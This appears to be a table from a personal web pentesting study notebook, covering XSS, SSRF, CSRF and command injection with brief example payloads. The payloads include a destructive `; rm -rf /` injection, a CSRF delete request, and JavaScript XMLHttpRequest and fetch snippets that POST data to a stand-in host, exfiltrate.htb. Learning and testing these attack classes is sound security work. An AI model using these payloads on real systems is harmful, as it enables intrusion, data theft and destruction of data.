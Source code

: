| **Cross-Site Scripting (XSS)**         | Injecting malicious JavaScript into webpages **to steal user sessions or perform actions**.          | `<script>alert(1)</script>`<br><br>Three Types<br>Reflective<br>Stored<br>DOM-based<br><br><br>[[../2.2 Attack Web/Javascript/Javascript, Nodejs, Express, Webpack\|Javascript, Nodejs, Express, Webpack]]<br>Common Dangerous functions<br>\| `eval()`\|<br>\| `setTimeout()`\|<br>\| `setInterval()`\|<br>\| `Function()`\|<br>\| `document.write()`\|<br>\| `innerHTML`\|<br>\| `outerHTML`\|<br>\| `location.href`\|<br>\| `location.replace \|<br>\| `localStorage`\|<br>\| `sessionStorage`\|<br>\| `XMLHttpRequest`\|<br>\| `fetch()`\|<br><br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| **Server-Side Request Forgery (SSRF)** | Abuse server functionality to perform internal or external resource requests on behalf of the server | `curl -X GET "http://localhost/admin"`<br><br>[[../2.2 Attack Web/SSRF/SSRF Basic\|SSRF Basic]]<br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| **Cross-Site Request Forgery (CSRF)**  | Tricking users into executing **unauthorized actions on a website** where they are authenticated.    | `<img src="http://target.com/delete?user=admin">`<br><br>[[../../../unpublished/OSWE/OSWE_Round2/Answers/Session Riding CSRF/CSRF\|CSRF]]<br>[[../2.2 Attack Web/Javascript/Session Riding CSRF/javascript payload session riding - CSRF\|javascript payload session riding - CSRF]]<br><br><br><br>Use [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) and [Fetch API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API) to send HTTP requests from javascript code.<br><br>XMLHTTPREQUEST<br>```js<br>var xhr = new XMLHttpRequest();<br>xhr.open('POST', 'http://exfiltrate.htb/', false);<br>xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');<br>xhr.send('param1=hello&param2=world');<br>```<br>Fetch API<br><br>```js<br>const response = await fetch('http://exfiltrate.htb/', {<br>    method: "POST",<br>    headers: {<br>      'Content-Type': 'application/x-www-form-urlencoded'<br>    },<br>    body: 'param1=hello&param2=world',<br>  });<br>```<br><br><br>Tools: <br>https://csrf-poc-generator.vercel.app/<br>Burp Pro - CSRF Generator |
| **Command Injection**                  | Injecting OS commands into **vulnerable input fields** to gain system access.                        | `; rm -rf /`<br>[[../../../unpublished/Web Pentesting Checklist/3. Command Injection\|3. Command Injection]]                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |